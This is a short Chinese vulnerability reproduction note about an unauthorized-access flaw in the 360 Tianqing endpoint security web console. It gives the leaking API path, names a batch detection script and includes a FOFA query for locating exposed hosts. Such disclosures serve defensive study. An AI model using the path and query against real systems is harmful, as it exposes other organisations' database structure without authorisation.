

# 0x00 软件介绍
360天擎：一套终端安全管理系统，包括客户端、Web端，漏洞出现在Web端，现在天擎归属奇安信，常称为奇安信天擎，官网：https://www.qianxin.com/product/detail/pid/49

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
访问如下地址
```
https://x.x.x.x/api/dbstat/gettablessize
```
访问后会暴漏数据库名、表名，如下图  


# 0x05 批量脚本
用法：
```
python3 360天擎-越权访问导致数据库信息泄露-Vuln-Batch-Detect.py -h
```
fofa语法：
```
app="360天擎终端安全管理系统"
```
效果如下  


# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
